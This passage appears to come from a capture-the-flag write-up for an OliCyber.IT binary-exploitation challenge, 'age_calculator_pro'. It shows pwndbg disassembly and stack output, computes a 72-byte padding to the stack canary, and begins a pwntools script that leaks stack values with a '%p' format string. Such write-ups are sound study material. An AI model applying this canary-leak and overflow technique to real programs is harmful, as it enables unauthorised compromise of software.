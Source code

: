 ```nasm
   0x00000000004013ed <+194>:   mov    eax,0x7e8
   0x00000000004013f2 <+199>:   sub    eax,DWORD PTR [rbp-0x54]
   0x00000000004013f5 <+202>:   mov    esi,eax
   0x00000000004013f7 <+204>:   lea    rax,[rip+0xe7a]        # 0x402278
   0x00000000004013fe <+211>:   mov    rdi,rax
   0x0000000000401401 <+214>:   mov    eax,0x0
   0x0000000000401406 <+219>:   call   0x4010c0 <printf@plt>
   0x000000000040140b <+224>:   mov    eax,0x0
   0x0000000000401410 <+229>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401414 <+233>:   sub    rdx,QWORD PTR fs:0x28
   0x000000000040141d <+242>:   je     0x401424 <main+249>
   0x000000000040141f <+244>:   call   0x4010b0 <__stack_chk_fail@plt>
   0x0000000000401424 <+249>:   leave
   0x0000000000401425 <+250>:   ret
End of assembler dump.
pwndbg> b *0x00000000004013b2
Breakpoint 1 at 0x4013b2
```

We run it and we run the telescope command to see what is happening.

```nasm
pwndbg> telescope 20
00:0000│ rsp 0x7fffffffdca0 ◂— 0x0
01:0008│-058 0x7fffffffdca8 ◂— 0x0
02:0010│ rax 0x7fffffffdcb0 ◂— 'deadbeef'
03:0018│-048 0x7fffffffdcb8 ◂— 0x0
... ↓        7 skipped
0b:0058│-008 0x7fffffffdcf8 ◂— 0xf0f7e6fa75d95d00
0c:0060│ rbp 0x7fffffffdd00 ◂— 0x1
0d:0068│+008 0x7fffffffdd08 —▸ 0x7ffff7df66ca (__libc_start_call_main+122) ◂— mov edi, eax
0e:0070│+010 0x7fffffffdd10 ◂— 0x0
0f:0078│+018 0x7fffffffdd18 —▸ 0x40132b (main) ◂— endbr64 
10:0080│+020 0x7fffffffdd20 ◂— 0x100000000
11:0088│+028 0x7fffffffdd28 —▸ 0x7fffffffde18 —▸ 0x7fffffffe161 ◂— '/home/vein/sec/CTF_OliCyber.IT/pwn_age_calculator_pro/age_calculator_pro'
12:0090│+030 0x7fffffffdd30 —▸ 0x7fffffffde18 —▸ 0x7fffffffe161 ◂— '/home/vein/sec/CTF_OliCyber.IT/pwn_age_calculator_pro/age_calculator_pro'
13:0098│+038 0x7fffffffdd38 ◂— 0xee01ba004c3bbe18
pwndbg> x 0x7fffffffdcf8 - 0x7fffffffdcb0
0x48:   Cannot access memory at address 0x48
```

We will substract the address of our input - the address of the canary = 0x48 = 72 bytes
So the padding is 72 bytes long to reach the canary.  But additional we will need +8 bytes after the canary cause we have an extra block before we reach the main's return address.

## Exploit

So, the final exploit will look like this:

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('age_calculator_pro', checksec=False)
p = process()
#context.log_level = 'debug'

frmt_string = b'|%p' * 20

p.sendlineafter(b'?', frmt_string)
p.recvline() # empty line
leak = p.recvline().split(b'|')
info(leak)
```